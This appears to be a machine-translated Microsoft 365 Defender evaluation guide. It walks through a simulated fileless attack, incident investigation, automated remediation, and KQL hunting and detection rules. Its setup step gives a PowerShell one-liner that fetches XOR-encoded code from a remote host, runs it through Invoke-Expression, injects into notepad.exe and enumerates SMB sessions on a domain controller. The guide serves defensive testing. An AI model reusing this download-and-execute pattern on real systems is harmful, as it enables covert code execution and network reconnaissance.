





# <a name="run-your-microsoft-365-defender-attack-simulations"></a>執行 Microsoft 365 Defender 攻擊模擬

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](mtp-pilot-plan.md)<br/>[規劃](mtp-pilot-plan.md)|[](prepare-mtpeval.md)<br/>[製備](prepare-mtpeval.md)|<br/>類比攻擊|[](mtp-pilot-close.md)<br/>[結束和摘要](mtp-pilot-close.md)|
|--|--|--|--|
|||*您在這裡！*||

您目前是在攻擊模擬階段。

準備好試驗環境之後，請嘗試測試 Microsoft 365 Defender 事件管理和自動調查和修正功能。 我們將協助您模擬複雜的攻擊，利用高級技術從偵測中隱藏。 攻擊會在網域控制站上列舉已開啟的伺服器消息區塊 (SMB) 會話，並檢索使用者裝置的最近 IP 位址。 這種攻擊類別通常不會包含放在受害者裝置上的檔案，而只是在記憶體中。 他們會使用現有的系統和系統管理工具，並將其程式碼插入系統進程，以隱藏其執行，這類行為可讓他們避開偵測，並在裝置上持續運作。

在此模擬中，我們的範例案例會從 PowerShell 腳本開始。 使用者可能會欺騙執行腳本。 或者，腳本可能從先前感染的裝置遠端連線至另一部電腦，企圖在網路中移動橫向。 偵測到這些腳本可能很困難，因為系統管理員也經常會以遠端方式執行腳本，以執行各種管理活動。



在模擬過程中，攻擊會將程式碼插入看似合法的程式。 此案例需要使用 notepad.exe。 我們為模擬選擇此程式，但攻擊者很可能是以長期執行的系統進程為目標，例如 svchost.exe。 然後，命令介面會繼續聯繫攻擊者的命令和控制項 (C2) server，以接收如何繼續的指示。 腳本會嘗試對網域控制站執行偵測查詢 (DC) 。 偵測允許攻擊者取得最近使用者登入資訊的相關資訊。 一旦攻擊者取得這項資訊，他們就可以在網路中移動橫向，以取得特定的機密帳戶。

> [!IMPORTANT]
> 為了獲得最佳結果，請盡可能遵循攻擊模擬指示。

## <a name="simulation-environment-requirements"></a>類比環境需求

由於您已在準備階段中設定試驗環境，因此請確定此案例有兩個裝置：測試裝置和網域控制站。

1. 請確認您的租使用者已 [啟用 Microsoft 365 Defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)。

2. 驗證測試網域控制站設定：

   - 使用 Windows Server 2008 R2 或更新版本的裝置執行。
   - [Microsoft Defender 身分識別](https://docs.microsoft.com/azure/security-center/security-center-wdatp)的測試網域控制站，並啟用[遠端系統管理](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)。
   - 確認 [Microsoft Defender 的身分識別和 Microsoft Cloud App Security integration](https://docs.microsoft.com/cloud-app-security/mdi-integration) 已啟用。
   - 在您的網域上建立測試使用者–不需要系統管理員許可權。

3. 驗證 test device configuration：

   1. 使用 Windows 10 版本1903或更新版本的裝置執行。

   1. 測試裝置已加入測試網域。

   1. [開啟 Windows Defender 防毒軟體](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)。 如果您在啟用 Windows Defender 防病毒時遇到問題，請參閱此 [疑難排解主題](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。

   1. 確認測試裝置 [架至 Microsoft Defender For Endpoint) ](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。

如果您使用現有租使用者並實施裝置群組，請為測試裝置建立專用的裝置群組，並將它推入設定 UX 的最上層。

## <a name="run-the-attack-scenario-simulation"></a>執行攻擊案例模擬

若要執行攻擊案例模擬：

1. 使用測試使用者帳戶登入測試裝置。

2. 在測試裝置上開啟 [Windows PowerShell] 視窗。

3. 複製下列類比腳本：

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > 如果您在網頁瀏覽器上開啟此檔，您可能會遇到複製完整文字但未遺失某些字元或引入額外分行符號的問題。 下載這份檔，並在 Adobe Reader 上開啟它。

4. 出現提示時，請貼上並執行複製的腳本。

> [!NOTE]
> 如果您正在使用遠端桌面通訊協定 (RDP) 執行 PowerShell，請使用 RDP 用戶端中的 [輸入剪貼簿文字] 命令，因為 **CTRL + V** 熱鍵或右擊-paste 方法可能無法運作。 最新版本的 PowerShell 有時候也不會接受該方法，您可能需要先在記憶體中複製到記事本，然後在虛擬機器中複製它，然後將它貼到 PowerShell 中。

幾秒後， <i>notepad.exe</i> 將會開啟。 模擬的攻擊程式碼會注入 notepad.exe。 將自動產生的記事本實例保持開啟，以體驗整個案例。

模擬的攻擊程式碼會嘗試 (模擬 C2 server) 中的外部 IP 位址進行通訊，然後透過 SMB 嘗試對網域控制站偵測偵測。

當此腳本完成時，您會看到 PowerShell 主控台上顯示一則訊息。

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

若要查看自動事件和回應功能的動作，請保持 notepad.exe 處理常式開啟。 您會看到自動化的事件和回應停止 [記事本] 處理常式。

## <a name="investigate-an-incident"></a>調查事件

> [!NOTE]
> 在您完成這項類比之前，請觀看下列影片，查看「事件管理」如何説明您將相關的警示放在一起，以供調查過程使用，您可以在入口網站中找到該程式，以及它如何協助您進行安全性作業：

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

切換至 SOC 分析員的觀點，您現在可以開始在 Microsoft 365 的安全性中心入口網站上調查攻擊。

1. 從任何裝置開啟 [Microsoft 365 安全性中心入口網站](https://security.microsoft.com/incidents) 事件佇列。

2. 從功能表流覽至 [ **事件** ]。

    

3. 模擬攻擊的新事件會出現在事件佇列中。

    

### <a name="investigate-the-attack-as-a-single-incident"></a>以單一事件調查攻擊

Microsoft 365 Defender 將不同產品的所有相關警示和調查，結合到一個事件實體中，以進行分析和匯總。 如此一來，Microsoft 365 Defender 會顯示更廣泛的攻擊案例，讓 SOC 分析員能夠瞭解並回應複雜的威脅。

此模擬期間產生的警示會與相同的威脅產生關聯，因此會自動匯總為單一事件。

若要查看此事件：

1. 流覽至 [ **事件** ] 佇列。

   

2. 按一下事件名稱左側的圓形以選取最新的專案。 側邊面板會顯示有關該事件的其他資訊，包括所有相關的警示。 每個事件都有唯一的名稱，它會根據其包含的警示屬性來描述它。

   

   儀表板中顯示的警示可根據服務資源進行篩選： Microsoft Defender for Identity、Microsoft Cloud App Security、Microsoft Defender for Endpoint、Microsoft 365 Defender 和 Microsoft Defender for Office 365。

3. 選取 [ **開啟事件] 頁面** ，以取得有關事件的詳細資訊。

   在 [ **事件** ] 頁面中，您可以看到與該事件相關的所有警示和資訊。 此資訊包含警示中所涉及的實體和資產、警示的偵測來源 (Microsoft Defender 身分識別、EDR) ，以及它們的連結在一起的原因。 檢查事件警示清單會顯示攻擊的進展。 您可以從這個視圖，查看並調查個別提醒。

   您也可以按一下右側功能表中的 [ **管理事件** ]，以標記事件、將其指派給您並新增批註。

   

   

### <a name="review-generated-alerts"></a>審閱產生的提醒

讓我們看一下模擬攻擊期間產生的一些警示。

> [!NOTE]
> 我們只會逐步完成模擬攻擊期間產生的一些警示。 視您測試裝置上所執行的 Windows 和 Microsoft 365 Defender 產品版本而定，您可能會看到更多以稍有不同順序顯示的警示。


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>警示：觀察到的可疑程式注入 (來源： Microsoft Defender for Endpoint EDR) 

高級攻擊者使用複雜且 stealthy 的方法，保存在記憶體中，並從偵測工具隱藏。 其中一項常見的技術是在信任的系統進程中運作，而不是惡意的可執行檔，使偵測工具和安全性作業難以發現惡意的程式碼。

為了讓 SOC 分析員能夠捕捉這些高級攻擊，Microsoft Defender for Endpoint 中的深度記憶體感應器提供我們的雲端服務，具有對各種跨進程程式碼注入技術的空前深入瞭解。 下圖顯示如何在嘗試插入程式碼來 <i>notepad.exe</i>時，如何偵測端點和警示。


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>警示：以無命令列引數執行程式所觀察到的意外行為 (來源： Microsoft Defender for Endpoint EDR) 

Microsoft Defender for Endpoint 偵測通常是以最常見的攻擊技術屬性為目標。 此方法可確保持續性並引發此列，以供攻擊者切換至更新的戰術。

我們採用大規模的學習演算法，在組織和全球範圍內建立一般程式的正常行為，並在這些程式顯示反常行為時加以監視。 這些反常行為通常表示已引進無關的程式碼，並在其他受信任的程式中執行。

在此案例中，處理 <i>notepad.exe</i> 會顯示反常的行為，包括與外部位置的通訊。 這項結果獨立于用於引入及執行惡意程式碼的特定方法。

> [!NOTE]
> 因為此警示是以需要其他後端處理的機器學習模型為基礎，所以在入口網站中看到此警示之前可能需要一些時間。

請注意，警示詳細資料包含外部 IP 位址（即您可以做為資料透視以展開調查的指標）。

選取 [警示處理常式] 樹狀目錄中的 IP 位址，以查看 [IP 位址詳細資料] 頁面。


下圖顯示 [選取的 IP 位址詳細資料] 頁面 (按一下警示處理樹狀目錄樹) 中的 [IP 位址]。


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>警示：使用者和 IP 位址偵測 (SMB)  (來源： Microsoft Defender 身分識別) 

列舉使用伺服器訊息區 (SMB) 通訊協定，可讓攻擊者取得最近的使用者登入資訊，以協助他們透過網路移動，以存取特定的機密帳戶。

在此偵測中，當 SMB 會話列舉對網域控制站執行時，就會觸發警示。


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>複查裝置時程表 [Microsoft Defender for Endpoint]

在探索此事件中的各種警示後，請移回先前所調查的 [事件] 頁面。 在 [事件] 頁面中，選取 [ **裝置** ] 索引標籤，以複查此事件中與 microsoft Defender for Endpoint 和 microsoft Defender 身分識別報告相關的裝置。

選取實施攻擊的裝置名稱，以開啟該特定裝置的實體頁面。 在該頁面中，您可以看到觸發和相關事件的警示。

選取 [ **時程表** ] 索引標籤以開啟裝置時程表，並以時間順序查看裝置上觀測到的所有事件和行為，並與所引發的警示交錯。



展開一些較為有趣的行為，可提供有用的詳細資料，例如處理樹。

例如，向下滾動，直到發現出現警示事件 **可疑程式注入**。 選取 **插入的powershell.exe** ，以 notepad.exe 它底下的處理程式事件，在側邊窗格的 [ **事件實體** ] 圖表下，顯示此行為的完整處理樹狀結構。 如有必要，請使用搜尋列進行篩選。


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>審閱使用者資訊 [Microsoft Cloud App Security]

在 [事件] 頁面上，選取 [ **使用者** ] 索引標籤，以顯示攻擊相關的使用者清單。 該表包含每個使用者的詳細資訊，包括每個使用者的 **調查優先順序** 分數。

選取 [使用者名稱]，以開啟可以進行進一步調查的使用者設定檔頁面。 [閱讀有關調查危險使用者的詳細資訊](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify)。


## <a name="automated-investigation-and-remediation"></a>自動化調查與補救措施

> [!NOTE]
>在進行這項模擬之前，請觀看下列影片，瞭解自動自我修復功能的相關資訊，以及如何在入口網站中找到它，以及如何協助您進行安全性作業：

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

在 Microsoft 365 的安全性中心入口網站中，向後流覽至該事件。 [**事件**] 頁面中的 [**調查**] 索引標籤會顯示 microsoft Defender 身分識別和 microsoft defender for Endpoint 所觸發的自動調查。 下列螢幕擷取畫面只會顯示由 Defender for Endpoint 所觸發的自動調查。 依預設，Defender for Endpoint 會自動 remediates 在佇列中找到的專案，這需要進行修復。


選取觸發調查的警示，以開啟 [ **調查詳細資料** ] 頁面。 您將會看到下列詳細資料：

- 觸發自動調查的警示 (s) 。
- 受影響的使用者和裝置。 如果在其他裝置上找到指示器，也會列出這些額外裝置。
- 證據清單。 找到並分析的實體，例如檔案、進程、服務、驅動程式和網路位址。 這些實體會進行分析，以取得警示的可能關係，並評為良性或惡意。
- 發現威脅。 調查期間找到的已知威脅。

> [!NOTE]
> 根據時間的不同，自動調查可能仍在執行中。 在您收集及分析證據並檢查結果之前，請等候幾分鐘完成處理常式。 重新整理「 **調查詳細資料** 」頁面以取得最新的結果。


在自動調查期間，Microsoft Defender for Endpoint 會識別出 notepad.exe 的處理常式，並將其注入為需要修正的其中一個專案。 Defender for Endpoint 會自動停止可疑的程式注入做為自動修復的一部分。

您可以在測試裝置上看到 [已執行的程式] 清單中 <i>notepad.exe</i> 會消失。

## <a name="resolve-the-incident"></a>解決事件

調查完成並確認待修正之後，請關閉該事件。

選取 [ **管理事件**]。 將狀態設定為 [ **解決事件** ]，然後選取相關的分類。

當事件解決時，它會在 Microsoft 365 的安全性中心和相關的入口網站中關閉所有相關聯的警示。

![[事件] 頁面的螢幕擷取畫面，其中包含「開啟的管理事件」面板，您可以在其中按一下參數來解決事件。](../../media/mtp/fig16.png)

這可讓事件管理和自動化調查和修正案例的攻擊類比。 下一個模擬會透過主動威脅搜尋潛在的惡意檔案，將您引導。

## <a name="advanced-hunting-scenario"></a>高級搜尋案例

> [!NOTE]
> 在您完成類比之前，請觀看下列影片，瞭解高級搜尋概念，請參閱您可以在入口網站中找到的位置，以及瞭解如何在您的安全性作業中協助您進行下列動作：

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>搜尋環境需求

此案例需要單一內部信箱和裝置。 您也需要外部電子郵件帳戶來傳送測試郵件。

1. 確認您的租使用者已 [啟用 Microsoft 365 Defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)。
2. 識別要用於接收電子郵件的目標信箱。
    a. 此信箱必須由 Microsoft Defender for Office 365 b 監控。 要求3裝置必須存取此信箱
3. 設定測試裝置： a。 請確認您使用的是 Windows 10 版本1903或更新版本。
    b. 將測試裝置加入測試網域。
    c. [開啟 Windows Defender 防毒軟體](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)。 如果您在啟用 Windows Defender 防病毒時遇到問題，請參閱 [此疑難排解主題](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。
    d. [在 Microsoft Defender For Endpoint 上的板載](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。

### <a name="run-the-simulation"></a>執行模擬

1. 從外部電子郵件帳戶，將電子郵件傳送至「測試環境需求」區段之步驟2中所識別的信箱。 包含可透過任何現有電子郵件篩選原則所允許的附件。 此檔案不需要是惡意或可執行檔。 建議的檔案類型為 <i>.pdf</i>、 <i>.exe</i> (如果允許) 或 Office 檔（如 Word 檔案）。
2. 從「測試環境需求」一節的步驟3中所設定的裝置，開啟已傳送的電子郵件。 開啟附件或將檔儲存到裝置。

#### <a name="go-hunting"></a>開始搜尋

1. 開啟 security.microsoft.com 入口網站。

2. 流覽至 **搜尋 > 高級搜尋**。

   

3. 建立以收集電子郵件事件開始的查詢。

   1. 在 [查詢] 窗格中，選取 [新增]。

   1. 在架構中按兩下 [EmailEvents] 表格。

      ```console
      EmailEvents
      ```

   1. 將時間範圍變更為過去24小時。 假設您在執行上述類比時所傳送的電子郵件是在過去24小時內，否則請變更時間範圍。

      ![您可以變更時間範圍的螢幕擷取畫面。 開啟下拉式功能表以從 [時間範圍] 選項範圍中選擇](../../media/mtp/fig18.png)

   1. 執行查詢。 根據試驗的環境而定，您可能會有許多結果。

      > [!NOTE]
      > 請參閱下一個步驟，篩選選項以限制資料傳回。

      

        > [!NOTE]
        > 「高級搜尋」會以表格式資料顯示查詢結果。 您也可以選擇以其他格式類型（如圖表）來查看資料。

   1. 查看結果，查看是否可以識別您開啟的電子郵件。 最多可能需要2個小時的時間，郵件才會顯示在高級搜尋中。 如果電子郵件環境很大，而且有許多結果，您可能想要使用 [ **顯示篩選] 選項** 來尋找郵件。

      在範例中，電子郵件是從 Yahoo 帳戶傳送。 按一下 [SenderFromDomain] 區段底下的 [ **+** **yahoo.com** ] 旁的圖示，然後按一下 [套用 **]，** 將選取的網域新增至查詢。 在執行模擬以篩選結果的步驟1中，使用用於傳送測試郵件的網域或電子郵件帳戶。 再次執行查詢以取得較小的結果集，以確認您看到類比中的郵件。

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. 按一下查詢中產生的資料列，以便檢查記錄。

      

4. 現在，您已確認您可以看到電子郵件，新增附件的篩選器。 在環境中著重于所有包含附件的電子郵件。 在此情況下，會將焦點移到輸入電子郵件，而不是從您的環境寄出。 移除您已新增的任何篩選，以找出郵件並新增 "|其中 **AttachmentCount > 0** 和 **EmailDirection**  ==  **"Inbound" "**

   下列查詢會顯示結果，其清單比您的所有電子郵件事件的初始查詢更短：

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. 接下來，包含附件的相關資訊 (例如：檔案名、雜湊) 結果集。 若要這麼做，請加入 **EmailAttachmentInfo** 表格。 在此情況下，要用於加入的一般欄位是 **NetworkMessageId** 和 **RecipientObjectId**。

   下列查詢也包含其他行 "| **project-Rename EmailTimestamp = Timestamp**"，可協助識別與您將在下一個步驟中新增之檔案動作相關的電子郵件與時間戳記有關的時間戳記。

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. 接下來，使用 **EmailAttachmentInfo** 表格中的 **SHA256** 值，尋找在該雜湊的端點) 上發生的 **DeviceFileEvents** (檔案動作。 這裡的一般欄位將會是附件的 SHA256 雜湊。

   產生的表格現在包含端點 (Microsoft Defender for Endpoint) （例如裝置名稱）、已完成的動作 (在此情況下，篩選為只包括 FileCreated 事件) ，以及儲存檔案的位置。 也會包含與處理常式相關聯的帳戶名稱。

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   您現在已經建立了一個查詢，它會識別所有使用者開啟或儲存附件的輸入電子郵件。 您也可以精煉此查詢，以篩選特定寄件者網域、檔案大小、檔案類型等等。

7. 函數是一種特殊的聯接方式，可讓您將更多的 TI 資料（如其流行、簽署者資訊等等）提取到更多的檔。若要取得檔案的詳細資料，請使用 **FileProfile ( # B1** 函數豐富：

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>建立偵測

當您建立一個查詢，識別您想要針對未來的情況收到 **警示** 的資訊時，您可以從查詢建立自訂偵測。

自訂偵測會根據您設定的頻率執行查詢，而查詢的結果會根據您所選擇的受影響資產，建立安全性警示。 這些警示會與事件相關聯，而且可以被會審為其中一項產品所產生的任何其他安全性警示。

1. 在 [查詢] 頁面上，移除 [前往搜尋指示] 的步驟7中所新增的行7和8，然後按一下 [ **建立偵測規則**]。

   ![可在 [高級搜尋] 頁面中按一下 [建立偵測規則] 的螢幕擷取畫面](../../media/mtp/fig22.png)

   > [!NOTE]
   > 如果您按一下 [ **建立偵測規則** ]，並在查詢中有語法錯誤，則您的偵測規則不會儲存。 請加倍檢查您的查詢，確定沒有任何錯誤。

2. 請填入必要的欄位，其中包含可讓安全性小組瞭解提醒的資訊、它的產生原因，以及您預期採取的動作。

   ![[建立偵測規則] 頁面的螢幕擷取畫面，您可以在其中定義警示詳細資料](../../media/mtp/fig23.png)

   請務必以清晰的方式填寫欄位，以協助下一使用者對此偵測規則警示作出明智的決定。

3. 選取此警示會影響哪些實體。 在此情況下，請選取 [ **裝置** 和 **信箱**]。

   ![[建立偵測規則] 頁面的螢幕擷取畫面，您可以在其中選擇受影響實體的參數](../../media/mtp/fig24.png)

4. 決定觸發警示時應執行的動作。 在此情況下，請執行防病毒掃描，但可以採取其他動作。

   ![[建立偵測規則] 頁面的螢幕擷取畫面，您可以在其中觸發警示時執行防病毒掃描，以協助解決威脅](../../media/mtp/fig25.png)

5. 選取警示規則的範圍。 因為此查詢包含裝置，所以裝置群組在此自訂偵測中會根據 Microsoft Defender for Endpoint coNtext 而相關。 當您建立未包括裝置作為受影響實體的自訂偵測時，不適用範圍。

   ![[建立偵測規則] 頁面的螢幕擷取畫面，您可以在其中設定警示規則的範圍，以管理您將看到的結果預期](../../media/mtp/fig26.png)

   在此試驗中，您可能會想要將此規則限制在實際執行環境中的測試裝置子集。

6. 選取 **[建立]**。 然後，選取導覽窗格中的 **自訂偵測規則** 。

   

   ![顯示規則和執行詳細資料之 [偵測規則] 頁面的螢幕擷取畫面](../../media/mtp/fig27b.png)

   在此頁面中，您可以選取將會開啟詳細資料頁面的偵測規則。

   ![[電子郵件附件] 頁面的螢幕擷取畫面，您可以在其中看到規則執行、觸發的警示和動作狀態、編輯偵測等等。](../../media/mtp/fig28.png)

### <a name="additional-advanced-hunting-walk-through-exercises"></a>其他的高級搜尋指導-透過練習

若要深入瞭解「高級搜尋」，下列網路廣播會逐步引導您透過 Microsoft 365 Defender 中的「高級搜尋」功能來建立跨 pillar 查詢、從多個實體切換至實體，以及建立自訂偵測和修正動作。

> [!NOTE]
> 請使用您自己的 GitHub 帳戶進行準備，以在試驗測試實驗室環境中執行搜尋查詢。

|職稱|描述|下載所用的|手錶 YouTube|要使用的 CSL 檔案|
|---|---|---|---|---|
|第1集： KQL 基礎|我們將涵蓋 Microsoft 365 Defender 中的高級搜尋功能的基本知識。 深入瞭解可用的高級搜尋資料和基本 KQL 語法及運算子。|[時](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[第1集： Git 中的 CSL 檔案](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|劇集2：聯接|我們將繼續深入瞭解高級搜尋中的資料，以及如何將資料表結合在一起。 瞭解內部、外部、unique 和半圓的連接，以及預設 Kusto innerunique join 的細微差別。|[時](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[劇集2： Git 中的 CSL 檔案](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|第3集：匯總、切換和視覺化資料|現在，我們可以篩選、處理及加入資料，這是時間開始摘要、量化、旋轉及形象。 在此過程中，我們將涵蓋匯總運算子和您可以執行的一些計算，同時深入探討高級搜尋架構中的其他表格。 我們會將資料集變成圖表，以協助改善分析。|[時](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[第3集： Git 中的 CSL 檔案](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|第4集：讓我們尋找！ 將 KQL 套用至事件追蹤|追蹤某些攻擊者活動的時間！ 在此期間，我們將使用 Microsoft 365 Defender 中深入瞭解的 KQL 和高級搜尋來追蹤攻擊。 深入瞭解此欄位中所用的部分秘訣，以追蹤攻擊者的活動，包括 cybersecurity 的 ABCs，以及如何將其套用至事件回應。|[時](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[第4集： Git 中的 CSL 檔案](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>後續步驟

| <br>[關閉及摘要階段](mtp-pilot-close.md)|分析您的 Microsoft 365 Defender 試驗結果，將其呈現給您的專案關係人，然後採取下一個步驟。
|:-----|:-----|
